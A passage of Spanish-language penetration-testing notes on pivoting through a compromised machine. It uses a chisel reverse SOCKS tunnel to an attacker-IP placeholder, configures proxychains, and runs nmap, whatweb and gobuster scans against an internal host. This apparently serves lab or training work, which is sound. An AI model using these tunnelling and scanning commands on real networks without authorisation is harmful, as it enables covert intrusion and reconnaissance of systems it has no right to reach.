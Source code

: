 #### Recordemos que así como podemos establecer un tunel a la vez podemos traernos un puerto especifico así como un protocolo distinto: 
```bash
./chisel client {IP_atacante}:1234 R:socks R:443:{Máquina3_IP}:443/udp
```

### Pero una vez creado el tunel, tenemos que agregar este en el archivo **/etc/proxychains4.conf**, al tratarse de un único tunel descomentamos la línea que dice **strict_chain** y al final de todo agregamos la línea **"socks5 127.0.0.1 8899"** para indicar que cuando usemos la herramienta **proxychains** y esta leea del archivo de configuración, entienda que tiene que pasar por el tunel levantado en nuestro localhost por el puerto indicado (Ej. 8899)

### Por ende, si desde nuestra Máquina 1 (Atacante) indicamos un escaneo a la máquina 3, no podremos, pero jugando con **proxychains** esta herramienta leera del archivo  **/etc/proxychains4.conf** donde configuramos un **socks5** en nuestro localhost por el puerto indicado. 
```bash
# No encontrara el host
nmap -p- --min-rate 5000 -vvv -Pn -n {Máquina3_IP}
# Encontrara el host 
proxychains nmap -Pn -sT -p- --min-rate 5000 -vvv -n {Máquina3_IP}
```
#### ACLARACIÓN: Para que funcione nmap a través del proxychain es necesario el parametro -Pn y -sT. 

### Si queremos que el escaneo con nmap vaya más rapido, podríamos usar el siguiente comando:
```bash
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -Pn -sT -p{} -T5 -n -v --open {Máquina3_IP} 2>&1 | grep "tcp open"
```

### A partir de aquí, todo es necesario que pase por el **proxychain**, ejemplos: 
```bash
# No encontrara el host
whatweb http://{Máquina3_IP}
# Encontrara el host
proxychains whatweb http://{Máquina3_IP}

# No encontrara el host 
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://{Máquina3_IP} -r -t 20 -x php,txt,html,js,py
# Encontrara el host PERO ira bastante lento
proxychains gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://{Máquina3_IP} -r -t 20 -x php,txt,html,js,py
# Encontrara el host y sera más OPTIMO 
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url http://{Máquina3_IP} -r -t 20 -x php,txt,html,js,py --proxy socks5://127.0.0.1:8899
```
